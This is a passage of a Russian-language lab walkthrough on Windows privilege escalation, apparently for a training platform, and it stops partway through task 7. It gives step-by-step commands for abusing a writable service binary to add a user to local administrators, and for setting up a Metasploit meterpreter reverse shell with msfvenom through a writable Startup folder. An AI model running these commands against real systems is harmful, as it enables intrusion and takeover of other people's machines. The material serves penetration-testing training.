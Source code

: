 ### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 6
Обнаружение

ВМ Windows

1. Откройте командную строку и введите:  `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`
2. Обратите внимание, что группа пользователей «Все» имеет разрешение «FILE_ALL_ACCESS» на файл filepermservice.exe.

Эксплуатация

ВМ Windows

1. Откройте командную строку и введите:  `copy /yc:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`
2. В командной строке введите: `sc start filepermsvc`
3. Подтвердить, что пользователь был добавлен в группу локальных администраторов, можно, введя в командной строке следующее: `net localgroup administrators`

### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```

## Задание 7
Обнаружение

ВМ Windows

1. Откройте командную строку и введите: `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
2. В выводе обратите внимание, что группа «BUILTIN\Users» имеет полный доступ «(F)» к каталогу.

Эксплуатация

Кали ВМ

1. Откройте командную строку и введите: `msfconsole`
2. В Metasploit (msf > prompt) введите: `use multi/handler`
3. В Metasploit (msf > prompt) введите: `set payload windows/meterpreter/reverse_tcp`
4. В Metasploit (msf > prompt) введите: `set lhost [ IP-адрес виртуальной машины Kali] `
5. В Metasploit (msf > prompt) введите: `run`
6. Откройте другую командную строку и введите:  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ IP-адрес виртуальной машины Kali ] -f exe -o x.exe`
7. Скопируйте сгенерированный файл x.exe на виртуальную машину Windows .

ВМ Windows
